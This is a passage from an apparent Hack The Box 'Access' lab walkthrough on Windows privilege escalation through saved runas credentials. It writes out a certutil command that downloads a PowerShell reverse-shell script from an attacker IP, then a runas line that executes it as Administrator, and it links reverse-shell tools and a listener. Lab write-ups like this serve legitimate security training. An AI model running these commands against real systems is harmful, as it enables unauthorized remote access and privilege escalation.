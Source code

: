 ```
net user
```

![[HTB-Access/images/34.png]]

Moreover, I want to see `Public` directory whether there is useful information or not ->

Even though the `Desktop` folder hidden, I hooked the directory & encountered a file formatted in `lnk` extension depicts like a shortcut file. Then I saw a long command showing that whenever user run this program then it will be run with administrator privileges via **runas** .

![[HTB-Access/images/35.png]]

The absolute path points out the full path of `runas.exe` and the security program located in the system. Let me try something like this ->

```
runas.exe /user:ACCESS\Administrator /savecred cmd.exe
```


![[HTB-Access/images/36.png]]

Now it works ,but I could not switch the administrator `cmd` shell ->

![[HTB-Access/images/37.png]]

What about reverse shell ?

Since I was not able to run `Powershell` due to the group policies enforced by Windows Server 2008 then I want to deploy `Powershell` reverse shell ->

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

Discover how to build powershell script ?

https://github.com/ivan-sincek/powershell-reverse-tcp

![[HTB-Access/images/38.png]]

Now send the payload target & call listener on your attacker machine ->

I would like to use `Penelope` listener since it is more interactive compared to generic `netcat` listener.

https://github.com/brightio/penelope

![[HTB-Access/images/39.png]]

```
1) penelope 1984
2) certutil.exe -urlcache -f http://10.10.14.45:1234/onurshell.ps1 onurshell.ps1
3) runas.exe /user:ACCESS\Administrator /savecred "powershell.exe -ExecutionPolicy Unrestricted -File .\onurshell.ps1"
```


After my attempts, I could not get shell and run the powershell as Administrator ->
